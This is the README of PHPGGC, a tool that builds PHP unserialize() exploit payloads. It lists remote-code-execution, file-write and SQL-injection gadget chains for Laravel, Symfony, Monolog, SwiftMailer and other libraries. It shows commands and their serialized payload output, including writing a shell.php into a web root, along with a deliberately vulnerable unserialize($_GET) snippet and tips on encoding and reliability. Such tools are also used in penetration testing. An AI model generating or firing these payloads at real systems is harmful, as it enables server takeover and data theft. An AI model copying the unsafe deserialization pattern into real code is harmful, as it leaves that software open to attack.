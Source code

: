 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of [frohoff's ysoserial](https://github.com/frohoff/ysoserial), but for PHP.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.

## Requirements

PHP >= 5.6 is required to run PHPGGC.

## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I    
Doctrine/FW1          ?                 file_write       __toString     *    
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct          
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct          
Laravel/RCE1          5.4.27            rce              __destruct          
Laravel/RCE2          5.5.39            rce              __destruct          
Laravel/RCE3          5.5.39            rce              __destruct     *    
Laravel/RCE4          5.5.39            rce              __destruct          
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct          
Monolog/RCE1          1.18 <= 1.23      rce              __destruct          
Monolog/RCE2          1.5 <= 1.17       rce              __destruct          
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *    
Slim/RCE1             3.8.1             rce              __toString          
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString          
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString          
SwiftMailer/FW3       5.0.1             file_write       __toString          
Symfony/FW1           2.5.2             file_write       DebugImport    *    
Symfony/FW2           3.4               file_write       __destruct          
Symfony/RCE1          3.3               rce              __destruct     *    
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *    
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *    
Yii/RCE1              1.1.19            rce              __wakeup       *    
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     *  

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

## Wrapper

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.

## Advanced: Fast destruct

PHPGGC implements a `--fast-destruct` flag, that will unsure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called.

# Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.
